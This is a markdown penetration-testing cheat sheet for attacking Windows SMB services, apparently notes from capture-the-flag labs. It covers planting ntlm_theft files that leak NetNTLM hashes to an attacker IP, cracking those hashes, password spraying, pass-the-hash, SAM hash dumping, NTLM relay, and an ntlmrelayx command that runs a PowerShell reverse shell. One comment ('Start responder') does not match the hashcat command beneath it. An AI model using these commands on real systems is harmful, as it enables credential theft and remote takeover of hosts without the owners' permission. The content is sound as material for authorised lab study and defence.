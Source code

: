 # Write Permissions

## [ntlm_theft](https://github.com/Greenwolf/ntlm_theft)

```bash
# Create files
python ntlm_theft.py -g all -s $IP_KALI -f bomba

# Connecting from the directory with the `ntlm_theft` output
smbclient //flight.htb/shared -U S.Moon 'S@Ss!K@*t13'

# Upload files to the share
smb: \> prompt false 
smb: \> mput *

# Start responder per intercettare l'hash NTLM
hashcat -m 5600 user.hash /usr/share/wordlists/rockyou.txt --force
```

# Restart Samba

```bash
sudo systemctl restart smbd
```

---

| **Command**                                                                                                     | **Description**                                                       |
| --------------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------- |
| `smbclient -N -L //10.129.14.128`                                                                               | Null-session testing against the SMB service.                         |
| `smbmap -H 10.129.14.128`                                                                                       | Network share enumeration using `smbmap`.                             |
| `smbmap -H 10.129.14.128 -r notes`                                                                              | Recursive network share enumeration using `smbmap`.                   |
| `smbmap -H 10.129.14.128 --download "notes\note.txt"`                                                           | Download a specific file from the shared folder.                      |
| `smbmap -H 10.129.14.128 --upload test.txt "notes\test.txt"`                                                    | Upload a specific file to the shared folder.                          |
| `rpcclient -U'%' 10.10.110.17`                                                                                  | Null-session with the `rpcclient`.                                    |
| `./enum4linux-ng.py 10.10.11.45 -A -C`                                                                          | Automated enumeratition of the SMB service using `enum4linux-ng`.     |
| `crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!'`                                            | Password spraying against different users from a list.                |
| `impacket-psexec administrator:'Password123!'@10.10.110.17`                                                     | Connect to the SMB service using the `impacket-psexec`.               |
| `crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec`            | Execute a command over the SMB service using `crackmapexec`.          |
| `crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users`                           | Enumerating Logged-on users.                                          |
| `crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam`                                        | Extract hashes from the SAM database.                                 |
| `crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE`                            | Use the Pass-The-Hash technique to authenticate on the target host.   |
| `impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146`                                            | Dump the SAM database using `impacket-ntlmrelayx`.                    |
| `impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e <base64 reverse shell>` | Execute a PowerShell based reverse shell using `impacket-ntlmrelayx`. |
